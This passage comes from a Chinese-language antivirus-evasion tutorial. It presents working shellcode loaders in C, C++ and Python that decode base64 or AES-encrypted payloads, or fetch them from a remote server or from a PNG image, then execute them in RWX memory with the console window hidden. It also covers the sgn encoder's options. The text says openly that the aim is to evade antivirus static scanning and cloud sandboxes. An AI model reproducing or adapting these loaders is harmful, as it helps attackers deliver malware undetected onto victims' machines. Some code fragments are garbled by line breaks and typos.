        if (c == 254) { c = 0; g--; } // 对应的值是'='，减少填充字符数
        t = (t << 6) | c; // 将值合并到一个int变量中
        if (++y == 4) { // 每处理4个字符输出解码后的数据
            outdata[i++] = (unsigned char)((t >> 16) & 0xff);
            if (g > 1) outdata[i++] = (unsigned char)((t >> 8) & 0xff);
            if (g > 2) outdata[i++] = (unsigned char)(t & 0xff);
            y = t = 0; // 重置临时变量
        }
    }
    if (outlen != NULL) { // 如果输出长度指针不为空，保存输出长度
        *outlen = i;
    }
    return ret; // 返回结果
}

```

加载器 main.c ( 使用base64编码 shellcode )

```c_cpp
#include <windows.h>
#include <stdio.h>
#include "base64.h"
#pragma comment(linker,"/subsystem:\"Windows\" /entry:\"mainCRTStartup\"") // 不显示黑窗口
int chartoint(char ch)
{
//0xff 0=9 a-f A-F
//'5' = 65 '0'=60 65-60=5
if (ch >= '0' && ch <= '9')
 {
return ch - '0';
 }
else if (ch >= 'a' && ch <= 'f')
 {
return ch - 'a' + 10;
 }
else if (ch >= 'A' && ch <= 'F')
 {
return ch - 'A' + 10;
 }
}
int stringtoint(char* string, char* ary)
{
//0x01\0x67\0xa9\0x67\0x66\0xff
//0x10==16 0x20==32;16+2
//10 20 ;10
int hex = 0;
for (size_t i = 0; i < strlen(string); i++)
 {
if (string[i] == 'x')
 {
int ff = string[i + 1];
ary[hex] = chartoint(string[i + 1]) * 16 + chartoint(string[i + 2]);
hex += 1;
i = i + 2;
 }
 }
return hex;
}
int main() {
char str2[] = "XHhmY1x4N"; // 此处放base64编码后的shellcode
int len = 0;
char str3[1000] = { 0 };
base64_decode(str2, (int)strlen(str2), str3, &len);
// 字符串转成字符数组,确保长度足够大
char ary[10000] = { 0 };
int nlen = strlen(str3) / 5 + 1;
// 转换
int hex = stringtoint(str3, ary); 
// 使用VirtualAlloc 函数申请一个 shellcode字节大小的可以执行代码的内存块
LPVOID addr = VirtualAlloc(NULL, sizeof(ary), MEM_COMMIT | MEM_RESERVE, 
PAGE_EXECUTE_READWRITE);
// 申请失败 , 退出
if (addr == NULL) {
return 1;
 }
// 把shellcode拷贝到这块内存
memcpy(addr, ary, sizeof(ary));
// 创建线程运行
HANDLE hThread = CreateThread(NULL,
NULL,
 (LPTHREAD_START_ROUTINE)addr,
NULL,
NULL,
0);
// 等待线程运行
WaitForSingleObject(hThread, -1);
// 关闭线程
CloseHandle(hThread);
return 0;
}
```

#### 检验

##### 1.base64编码

```
base64.exe p.txt
```



##### 2.构建恶意文件



##### 3.运行上线


### 3.AES加密

AES（Advanced Encryption Standard）是一种对称加密算法，被广泛用于保护敏感数据的机密性。

AES.exe 实现的加密器 , p.txt是去掉\x的16进制字符串文本, key是16字节长度

```
Aes.exe p.txt fregrgtgrtgh3456
```



加载器

使用AES文件夹下的文件



```c_cpp
#pragma warning(disable : 4996)
#include <iostream>
#include "AES.h"
#include "Base64.h"
#include <windows.h>
#include <stdio.h>
using namespace std;
#pragma comment(linker,"/subsystem:\"Windows\" /entry:\"mainCRTStartup\"") // 不显示黑窗
口
int chartoint(char ch)
{
  //0xff 0=9 a-f A-F
  //'5' = 65 '0'=60 65-60=5
  if (ch >= '0' && ch <= '9')
  {
    return ch - '0';
  }
  else if (ch >= 'a' && ch <= 'f')
  {
    return ch - 'a' + 10;
  }
  else if (ch >= 'A' && ch <= 'F')
  {
    return ch - 'A' + 10;
  }
}
void stringtoint(char* string, char* ary)
{
  int hex = 0;
  for (size_t i = 0; i < strlen(string); i++)
  {
    int ff = string[i];
    ary[hex] = chartoint(string[i]) * 16 + chartoint(string[i + 1]);
    hex += 1;
    i = i + 1;
  }
}
string DecryptionAES(const string& strSrc, const char* g_key, const char* g_iv)
{
  string strData = base64_decode(strSrc);
  size_t length = strData.length();
  //密文
  char* szDataIn = new char[length + 1];
  memcpy(szDataIn, strData.c_str(), length + 1);
  //明文
  char* szDataOut = new char[length + 1];
  memcpy(szDataOut, strData.c_str(), length + 1);
  //进行AES的CBC模式解密
  AES aes;
  aes.MakeKey(g_key, g_iv, 16, 16);
  aes.Decrypt(szDataIn, szDataOut, length, AES::CBC);
  //去PKCS7Padding填充
  if (0x00 < szDataOut[length - 1] <= 0x16)
  {
    int tmp = szDataOut[length - 1];
    for (int i = length - 1; i >= length - tmp; i--)
    {
      if (szDataOut[i] != tmp)
      {
        memset(szDataOut, 0, length);
        cout << "去填充失败！解密出错！！" << endl;
        break;
      }
      else
        szDataOut[i] = 0;
    }
  }
  string strDest(szDataOut);
  delete[] szDataIn;
  delete[] szDataOut;
  return strDest;
}
int main(int argc, char* argv[]) {
  // 加密后的shellcode
  char str2[] = "HZesSvGRUWSKDbPvG6sO/h";

  const char g_key[17] = "bufreugtrughtuir";
  const char g_iv[17] = "bufreugtrughtuir";
  // AES解密
  string str3 = DecryptionAES(str2, g_key, g_iv);
  char str4[sizeof(str2)] = { 0 };
  for (int i = 0; i < str3.length(); i++) {
    str4[i] = str3[i];
  }
  // 字符串格式的shellcode转成字符数组
  char ary[sizeof(str4) / 2] = { 0 };
  stringtoint(str4, ary); // ary字符数组 , 原shellcode
  // 使用VirtualAlloc 函数申请一个 shellcode字节大小的可以执行代码的内存块
  LPVOID addr = VirtualAlloc(NULL, sizeof(ary), MEM_COMMIT | MEM_RESERVE,
    PAGE_EXECUTE_READWRITE);
  // 申请失败 , 退出
  if (addr == NULL) {
    return 1;
  }
  // 把shellcode拷贝到这块内存
  memcpy(addr, ary, sizeof(ary));
  // 创建线程运行
  HANDLE hThread = CreateThread(NULL,
    NULL,
    (LPTHREAD_START_ROUTINE)addr,
    NULL,
    NULL,
    0);
  // 等待线程运行
  WaitForSingleObject(hThread, -1);
  // 关闭线程
  CloseHandle(hThread);
  return 0;
}
```

## 3.2shellcode内存加解密

shellcode内存加解密相对于之前的在程序运行时进行解密, 那么释放到内存中的shellcode依旧是原始的, 而在内存级别的自解密shellcode刚开始在内存中是一串从未见到过的shellcode。

命令介绍

```
> sgn.exe -h
       __   _ __        __                               _
  ___ / /  (_) /_____ _/ /____ _  ___ ____ _  ___  ___ _(_)
 (_-</ _ \/ /  '_/ _ `/ __/ _ `/ / _ `/ _ `/ / _ \/ _ `/ /
/___/_//_/_/_/\_\\_,_/\__/\_,_/  \_, /\_,_/ /_//_/\_,_/_/
========[Author:-Ege-Balcı-]====/___/=======v2.0.0=========
    ┻━┻ ︵ヽ(`Д´)ﾉ︵ ┻━┻           (ノ ゜Д゜)ノ ︵ 仕方がない

Usage: sgn.exe [OPTIONS] <FILE>
  -a int
        Binary architecture (32/64) (default 32)
  -asci
        Generates a full ASCI printable payload (takes very long time to bruteforce)
  -badchars string
        Don't use specified bad characters given in hex format (\x00\x01\x02...)
  -c int
        Number of times to encode the binary (increases overall size) (default 1)
  -h    Print help
  -max int
        Maximum number of bytes for obfuscation (default 20)
  -o string
        Encoded output binary name
  -plain-decoder
        Do not encode the decoder stub
  -safe
        Do not modify any register values
  -v    More verbose output
```

> -a：指定二进制文件的架构（32位或64位）。
-asci：生成完整的ASCII可打印有效负载，但需要很长时间进行暴力破解。
-badchars：指定不使用的不良字符，以十六进制格式表示。( \x00,\x01)
-c：指定编码二进制的次数 ( 默认1,1-10 )，增加总体大小。
-h：打印帮助信息。
-max：指定最大混淆字节数。（默认为20）
-o：指定编码后输出的二进制文件名。
-plain-decoder：不对解码器存根进行编码。
-safe：不修改任何寄存器值。
-v：提供更详细的输出信息。

常用命令

```
sgn -a 64 -c 6 -o pd.bin payload.bin
```

## 3.3shellcode分离

### 1.本地直接分离

直接在加载器中通过读取文件 ( 二进制文件raw ) 内容的形式获取shellcode, 然后加载运行

#### c语言

```c_cpp
#include <stdio.h>
#include <stdlib.h>
#include <windows.h>
#pragma comment(linker,"/subsystem:\"Windows\" /entry:\"mainCRTStartup\"") // 不显示黑窗 口
#define _CRT_SECURE_NO_WARNINGS // 解决 fopen_s 的警告
int main() {
    // 读取shellcode文件
    char filename[] = "conx.ini";
    FILE* file;
    if (fopen_s(&file, filename, "rb") != 0) {
        perror("Failed to open the code file.");
        return 1;
    }
    fseek(file, 0, SEEK_END);
    long size = ftell(file);
    fseek(file, 0, SEEK_SET);
    char* code = (char*)malloc(size);
    if (!code) {
        perror("Failed to allocate memory for code.");
        fclose(file);
        return 1;
    }
    if (fread(code, 1, size, file) != size) {
        perror("Failed to read code from the file.");
        fclose(file);
        free(code);
        return 1;
    }
    fclose(file);
    // 使用VirtualAlloc 函数申请一个 shellcode字节大小的可以执行代码的内存块
    LPVOID addr = VirtualAlloc(NULL, size, MEM_COMMIT | MEM_RESERVE,
    PAGE_EXECUTE_READWRITE);
    // 申请失败 , 退出
    if (addr == NULL) {
        return 1;
    }
    // 把shellcode拷贝到这块内存
    memcpy(addr, code, size);
    // 创建线程运行
    HANDLE hThread = CreateThread(NULL,
    NULL,
     (LPTHREAD_START_ROUTINE)addr,
    NULL,
    NULL,
    0);
    // 等待线程运行
    WaitForSingleObject(hThread, -1);
    // 关闭线程
    CloseHandle(hThread);
    // 释放资源
    free(code);
    return 0;
}
```

#### Python 语言

```python
import ctypes
VirtualAlloc = ctypes.windll.kernel32.VirtualAlloc
RtlMoveMemory = ctypes.windll.kernel32.RtlMoveMemory
CreateThread = ctypes.windll.kernel32.CreateThread
WaitForSingleObject = ctypes.windll.kernel32.WaitForSingleObject
# shellcode可以用cs来生成
# 读取文件
with open("config.ini",mode="rb") as f:
buf = f.read()
sc = bytearray(buf)
VirtualAlloc.restype = ctypes.c_uint64 # 重载函数返回类型为c_uint64
p = VirtualAlloc(ctypes.c_int(0), ctypes.c_int(len(sc)), 0x3000, 0x00000040) # 申请内存
buf = (ctypes.c_char * len(sc)).from_buffer(sc) # 将sc指向指针
RtlMoveMemory(ctypes.c_void_p(p), buf, ctypes.c_int(len(sc))) # 复制sc进申请的内存中
h = CreateThread(ctypes.c_int(0), ctypes.c_int(0), ctypes.c_void_p(p), ctypes.c_int(0), 
ctypes.c_int(0),
ctypes.pointer(ctypes.c_int(0))) # 执行创建线程
WaitForSingleObject(ctypes.c_int(h), ctypes.c_int(-1)) # 检测线程创建事件
```

### 2.分离到网络

跟本地唯一的区别就是需要发起网络请求, 然后获取shellcode的内容 ( 16进制字符串\xfc, 不是bin文件 )

#### c++

```c_cpp
#include <string>
#include <windows.h>
#include <winhttp.h>
#include <iostream>
#pragma comment(lib, "winhttp.lib")
#pragma comment(linker,"/subsystem:\"Windows\" /entry:\"mainCRTStartup\"") // 不显示黑窗 口
using namespace std;
char* WinGet(char* ip, int port, char* path)
{
  HINTERNET hSession = NULL;
  HINTERNET hConnect = NULL;
  HINTERNET hRequest = NULL;
  //************ 将char转换为wchar_t *****************/
  int ipSize;
  wchar_t* ip_wchar;
  //返回接受字符串所需缓冲区的大小，已经包含字符结尾符'\0'
  ipSize = MultiByteToWideChar(CP_ACP, 0, ip, -1, NULL, 0); //iSize
  = wcslen(pwsUnicode) + 1 = 6
    ip_wchar = (wchar_t*)malloc(ipSize * sizeof(wchar_t)); //不需要 pwszUnicode = (wchar_t
  *)malloc((iSize + 1) * sizeof(wchar_t))
    MultiByteToWideChar(CP_ACP, 0, ip, -1, ip_wchar, ipSize);
  int urlSize;
  wchar_t* url_wchar;
  //返回接受字符串所需缓冲区的大小，已经包含字符结尾符'\0'
  urlSize = MultiByteToWideChar(CP_ACP, 0, path, -1, NULL, 0); //iSize
  = wcslen(pwsUnicode) + 1 = 6
    url_wchar = (wchar_t*)malloc(urlSize * sizeof(wchar_t)); //不需要 pwszUnicode = (wchar_t
  *)malloc((iSize + 1) * sizeof(wchar_t))
    MultiByteToWideChar(CP_ACP, 0, path, -1, url_wchar, urlSize);
  //************ ********************************* *****************/
  //port = 80; //默认端口
  //1. 初始化一个WinHTTP-session句柄，参数1为此句柄的名称
  hSession = WinHttpOpen(L"WinHTTP Example/1.0",
    WINHTTP_ACCESS_TYPE_DEFAULT_PROXY,
    WINHTTP_NO_PROXY_NAME,
    WINHTTP_NO_PROXY_BYPASS, 0);
  if (hSession == NULL) {
    cout << "Error:Open session failed: " << GetLastError() << endl;
    exit(0);
  }
  //2. 通过上述句柄连接到服务器，需要指定服务器IP和端口号
INTERNET_DEFAULT_HTTP_PORT:80。若连接成功，返回的hConnect句柄不为NULL
hConnect = WinHttpConnect(hSession, ip_wchar, port, 0);
if (hConnect == NULL) {
  cout << "Error:Connect failed: " << GetLastError() << endl;
  exit(0);
}
//3. 通过hConnect句柄创建一个hRequest句柄，用于发送数据与读取从服务器返回的数据。
hRequest = WinHttpOpenRequest(hConnect, L"GET", url_wchar, NULL,
  WINHTTP_NO_REFERER, WINHTTP_DEFAULT_ACCEPT_TYPES, 0);
//其中参数2表示请求方式，此处为Get；参数3:给定Get的具体地址，如这里的具体地址为
https://www.citext.cn/GetTime.php
if (hRequest == NULL) {
  cout << "Error:OpenRequest failed: " << GetLastError() << endl;
  exit(0);
}
BOOL bResults;
//发送请求
bResults = WinHttpSendRequest(hRequest,
  WINHTTP_NO_ADDITIONAL_HEADERS,
  0, WINHTTP_NO_REQUEST_DATA, 0,
  0, 0);
if (!bResults) {
  cout << "Error:SendRequest failed: " << GetLastError() << endl;
  exit(0);
}
else {
  //（3） 发送请求成功则准备接受服务器的response。注意：在使用
  WinHttpQueryDataAvailable和WinHttpReadData前必须使用WinHttpReceiveResponse才能
    access服务器返回的数据
    bResults = WinHttpReceiveResponse(hRequest, NULL);
}
LPVOID lpHeaderBuffer = NULL;
DWORD dwSize = 0;
//4-3. 获取服务器返回数据
LPSTR pszOutBuffer = NULL;
DWORD dwDownloaded = 0; //实际收取的字符数
wchar_t* pwText = NULL;
if (bResults)
{
  do
  {
    //(1) 获取返回数据的大小（以字节为单位）
    dwSize = 0;
    if (!WinHttpQueryDataAvailable(hRequest, &dwSize)) {
      cout << "Error：WinHttpQueryDataAvailable failed：" << GetLastError() << endl;
      break;
    }
    if (!dwSize) break; //数据大小为0
    //(2) 根据返回数据的长度为buffer申请内存空间
    pszOutBuffer = new char[dwSize + 1];
    if (!pszOutBuffer) {
      cout << "Out of memory." << endl;
      break;
    }
    ZeroMemory(pszOutBuffer, dwSize + 1); //将buffer置0
    //(3) 通过WinHttpReadData读取服务器的返回数据
    if (!WinHttpReadData(hRequest, pszOutBuffer, dwSize, &dwDownloaded)) {
      cout << "Error：WinHttpQueryDataAvailable failed：" << GetLastError() << endl;
    }
    if (!dwDownloaded)
      break;
  } while (dwSize > 0);
  //4-4. 将返回数据转换成UTF8
  DWORD dwNum = MultiByteToWideChar(CP_ACP, 0, pszOutBuffer, -1, NULL, 0); //返回原始ASCII码的字符数目
  pwText = new wchar_t[dwNum]; //根据ASCII码的字符数分配UTF8的空间
  MultiByteToWideChar(CP_UTF8, 0, pszOutBuffer, -1, pwText, dwNum); //将ASCII码转换成UTF8
  //printf("\n返回数据为:\n%S\n\n", pwText);
}
//5. 依次关闭request，connect，session句柄
if (hRequest) WinHttpCloseHandle(hRequest);
if (hConnect) WinHttpCloseHandle(hConnect);
if (hSession) WinHttpCloseHandle(hSession);
/****************** 将wchar转换为char *******************/
int iSize;
char* data;
//返回接受字符串所需缓冲区的大小，已经包含字符结尾符'\0'
iSize = WideCharToMultiByte(CP_ACP, 0, pwText, -1, NULL, 0, NULL, NULL); //iSize
= wcslen(pwsUnicode) + 1 = 6
data = (char*)malloc(iSize * sizeof(char)); //不需要 pszMultiByte =
(char*)malloc(iSize * sizeof(char) + 1);
WideCharToMultiByte(CP_ACP, 0, pwText, -1, data, iSize, NULL, NULL);
return data;
}
int chartoint(char ch)
{
  //0xff 0=9 a-f A-F
  //'5' = 65 '0'=60 65-60=5
  if (ch >= '0' && ch <= '9')
  {
    return ch - '0';
  }
  else if (ch >= 'a' && ch <= 'f')
  {
    return ch - 'a' + 10;
  }
  else if (ch >= 'A' && ch <= 'F')
  {
    return ch - 'A' + 10;
  }
}
void stringtoint(char* string, char* ary)
{
  int hex = 0;
  for (size_t i = 0; i < strlen(string); i++)
  {
    if (string[i] == 'x')
    {
      int ff = string[i + 1];
      ary[hex] = chartoint(string[i + 1]) * 16 + chartoint(string[i + 2]);
      hex += 1;
      i = i + 2;
    }
  }
}
int main()
{
  char* data;
  char ip[] = "vpsip";
  char path[] = "config.ini";
  data = WinGet(ip, 8000, path);
  //cout << "返回的数据为: " << data << endl;
  // 字符串格式的shellcode转成字符数组
  char ary[1000] = { 0 };
  stringtoint(data, ary); // ary字符数组 , 原shellcode
  int size = sizeof(ary);
  // 使用VirtualAlloc 函数申请一个 shellcode字节大小的可以执行代码的内存块
  LPVOID addr = VirtualAlloc(NULL, size, MEM_COMMIT | MEM_RESERVE,
    PAGE_EXECUTE_READWRITE);
  // 申请失败 , 退出
  if (addr == NULL) {
    return 1;
  }
  // 把shellcode拷贝到这块内存
  memcpy(addr, ary, size);
  // 创建线程运行
  HANDLE hThread = CreateThread(NULL,
    NULL,
    (LPTHREAD_START_ROUTINE)addr,
    NULL,
    NULL,
    0);
  // 等待线程运行
  WaitForSingleObject(hThread, -1);
  // 关闭线程
  CloseHandle(hThread);
}
```

#### Python

```python
import ctypes
import requests
VirtualAlloc = ctypes.windll.kernel32.VirtualAlloc
RtlMoveMemory = ctypes.windll.kernel32.RtlMoveMemory
CreateThread = ctypes.windll.kernel32.CreateThread
WaitForSingleObject = ctypes.windll.kernel32.WaitForSingleObject
# shellcode可以用cs来生成
# 发起网络请求
response = requests.get("http://127.0.0.1:8000/config.ini")
buf = response.text
# 将十六进制字符串转换为字节对象
buf = bytes.fromhex(buf.replace("\\x", ""))
sc = bytearray(buf)
VirtualAlloc.restype = ctypes.c_uint64 # 重载函数返回类型为c_uint64
p = VirtualAlloc(ctypes.c_int(0), ctypes.c_int(len(sc)), 0x3000, 0x00000040) # 申请内存
buf = (ctypes.c_char * len(sc)).from_buffer(sc) # 将sc指向指针
RtlMoveMemory(ctypes.c_void_p(p), buf, ctypes.c_int(len(sc))) # 复制sc进申请的内存中
h = CreateThread(ctypes.c_int(0), ctypes.c_int(0), ctypes.c_void_p(p), ctypes.c_int(0), 
ctypes.c_int(0),
ctypes.pointer(ctypes.c_int(0))) # 执行创建线程
WaitForSingleObject(ctypes.c_int(h), ctypes.c_int(-1)) # 检测线程创建事件
```

### 3.隐藏在图片中

原理很简单, 相对于本地直接分离有了图片作为伪装, 免杀效果好一点点
制作步骤
1.选取一张图片, 然后读取图片的字节大小
2.在图片末尾插入shellcode
3.生成一张新的图片, 且记录shellcode的在文件中的起始位置
4.打开图片文件,从shellcode起始位置开始读取
5.正常加载执行
shellcode插入图片文件

```python
def main(shell_code, file_name="tom.png"):
# 打开tom.png
    with open(file_name, mode="rb") as f:
        data = f.read()
        print("shell_code 起始位置为:", len(data))
        with open("tom_new.png", mode="wb") as f:
            f.write(data+shell_code)
        print("shell_code 插入成功")

if __name__ == '__main__':
    data = b"\xfc你的shellcode"
    main(data)
```

#### python

```python
import ctypes
def main():
# 读取图片获取
    with open("tom_new.png", mode="rb") as f:
    # 移动到shellcode起始位置
        f.seek(1101128)
        content = f.read()
    bdata = bytearray(content)
    ctypes.windll.kernel32.VirtualAlloc.restype = ctypes.c_uint64 # 重载函数返回类型为c_uint64
    p = ctypes.windll.kernel32.VirtualAlloc(ctypes.c_int(0), ctypes.c_int(len(bdata)), 0x3000, 
    0x00000040) # 申请内存
    data = (ctypes.c_char * len(bdata)).from_buffer(bdata) # 将bdata指向指针
    ctypes.windll.kernel32.RtlMoveMemory(ctypes.c_void_p(p), data, ctypes.c_int(len(bdata))) # 复制shellcode进申请的内存中
    h = ctypes.windll.kernel32.CreateThread(ctypes.c_iQnt(0),
                 ctypes.c_int(0),
                    ctypes.c_void_p(p),
                    ctypes.c_int(0),
                    ctypes.c_int(0),
                    ctypes.pointer(ctypes.c_int(0))
                    ) # 执行创建线程
    # 检测线程创建事件
    ctypes.windll.kernel32.WaitForSingleObject(ctypes.c_int(h), ctypes.c_int(-1))

    if __name__ == '__main__':
        main()
```

#### c

```c_cpp
#include <stdio.h>
#include <stdlib.h>
#include <Windows.h>
#pragma comment(linker,"/subsystem:\"Windows\" /entry:\"mainCRTStartup\"") // 不显示黑窗口

int main() {
    FILE* file = fopen("tom_new.png", "rb");
    if (!file) {
        perror("Error opening file");
        return 1;
    }

    // 移动到 shellcode 起始位置
    fseek(file, 7533, SEEK_SET);

    // 获取文件大小
    fseek(file, 0, SEEK_END);
    long size = ftell(file);
    fseek(file, 7533, SEEK_SET);  // 重新设置文件指针到起始位置

    // 读取内容
    char* content = (char*)malloc(size);
    if (!content) {
        perror("Error allocating memory");
        fclose(file);
        return 1;
    }

    fread(content, 1, size, file);
    fclose(file);

    // 申请内存
    LPVOID p = VirtualAlloc(NULL, size, MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);
    if (p == NULL) {
        DWORD error = GetLastError();
        fprintf(stderr, "Error allocating memory. GetLastError: %lu\n", error);
        free(content);
        return 1;
    }

    // 复制 shellcode 进申请的内存中
    memcpy(p, content, size);

    // 创建线程
    HANDLE h = CreateThread(NULL, 0, (LPTHREAD_START_ROUTINE)p, NULL, 0, NULL);
    if (h == NULL) {
        fprintf(stderr, "Error creating thread\n");
        free(content);
        return 1;
    }

    // 等待线程完成
    WaitForSingleObject(h, INFINITE);

    // 释放内存
    VirtualFree(p, 0, MEM_RELEASE);
    free(content);
    return 0;
}
```

shellcode加密/编码都是为了逃过杀软的静态检测, 分离在原来的基础上也有对抗云沙箱的作用, 因为沙箱中没有shellcode文件, 无法加载